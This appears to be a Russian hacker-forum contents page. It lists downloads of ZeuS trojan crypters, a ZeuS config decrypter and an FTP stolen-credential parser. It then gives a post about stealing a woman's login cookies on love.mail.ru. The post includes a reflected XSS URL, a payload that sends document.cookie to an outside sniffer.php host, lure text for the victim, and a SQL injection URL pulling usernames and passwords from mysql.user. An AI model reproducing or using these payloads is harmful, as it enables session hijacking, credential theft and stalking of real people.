



|
|
|
Содержание Crypt for ZeuS v.0.1  .../soft/Crypt_for_ZeuS_v.0.1.rar 534кб SCrypt by St  .../soft/SCrypt__TGBR.IN__by_St.rar 186кб Of xenophob: Декриптер конфигоф зевса по 1.0.4 версию. .../soft/ZeusDecrypter.rar 115кб FTPParser v.1.0  Описание: - удаление ftp:// - удаление фри хостов - удаление строк содержащих: anonimoys 10.*.*.* 192.168.*.* 127.0.0.* localhost Порт (login:pass@domain.ru:21) Путь (login:pass@ftp.domain.ru/pub/) - смена местами login и pass - выборка по зоне домена .../soft/FtpParser.rar 17,3кб Of Dr.Cert: Ищем себе девушку с красивыми cookie Вот ну бывает же такое, увидел девушку красивую, захотелось познакомиться поближе, нужно было по любому найти xss, получился отличный вариант, который определенно и вам пригодится ;) Код:
http://love.mail.ru/top/rating.phtml?rating_id=11572%22%3E%3Cscript%3Ealert(document.cookie);%3C/script%3E%3C!-- Ну и собстно "Дорогая, смотри какая красивая фотка, откуда только такие берутся :) Вот смотри [закодированный в урл] Код:
http://love.mail.ru/top/rating.phtml?rating_id=11572"><script>i=new Image();i.src='http://*/sniffer.php?'+document.cookie;</script><!--" Открываем контакты, выбираем любое сообщение, ставим cid и смотрим собстно Код:
http://love.mail.ru/my/messages_show.phtml?cid=[номер вашего сообщения]%20and%201=1%20union%20select%20user,password,0,0, 0,0,0,0,0,0,0,0,0,0%20from%20mysql.user/*&offset=0 |
||
|
|